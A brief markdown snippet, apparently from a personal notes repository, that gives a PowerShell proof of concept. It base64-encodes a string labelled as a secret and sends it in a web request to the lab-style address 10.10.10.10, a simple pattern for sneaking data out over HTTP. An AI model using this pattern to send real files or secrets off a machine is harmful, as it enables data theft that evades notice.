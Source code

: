 # powershell
## simple base64 encoded web request proof of concept
```
$Text = ‘This is a secret and should be hidden’
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
Invoke-WebRequest -Uri http://10.10.10.10/$EncodedText
```